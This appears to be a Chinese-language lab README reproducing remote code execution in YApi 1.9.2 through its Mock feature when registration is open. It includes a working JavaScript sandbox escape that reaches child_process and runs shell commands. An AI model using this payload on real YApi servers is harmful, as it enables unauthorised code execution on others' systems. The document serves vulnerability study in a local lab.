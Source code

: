 # YApi开放注册导致RCE

[中文版本(Chinese version)](README.zh-cn.md)

YApi是一个API管理工具。如果注册功能开放，攻击者可以使用Mock功能执行任意代码。

参考链接：

- <https://paper.seebug.org/1639/>
- <https://www.freebuf.com/vuls/279967.html>

## 漏洞环境

执行如下命令启动一个YApi 1.9.2：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:3000`即可查看到YApi首页。

## 漏洞复现

首先，注册一个用户，并创建项目和接口：

![](1.png)

![](2.png)

接口中有一个Mock页面可以填写代码，我们填写包含恶意命令的代码：

```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("id;uname -a;pwd").toString()
```

![](3.png)

然后，回到“预览”页面可以获得Mock的URL：

![](4.png)

打开这个URL，即可查看到命令执行的结果：

![](5.png)
